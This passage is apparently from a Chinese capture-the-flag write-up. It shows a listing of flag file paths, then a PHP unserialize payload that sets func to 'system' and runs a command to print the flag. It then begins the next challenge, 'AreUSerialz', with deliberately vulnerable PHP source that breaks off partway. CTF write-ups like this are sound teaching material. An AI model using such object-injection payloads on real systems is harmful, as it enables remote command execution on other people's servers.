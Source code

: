 ```sh
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/tunl0/flags
/sys/devices/virtual/net/lo/flags
/tmp/flagoefiu4r93
/tmp/flagoefiu4r93
```

凭直觉就是最后面的
`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:21:"nl /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`
得到flag



## [网鼎杯 2020 青龙组]AreUSerialz



```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
```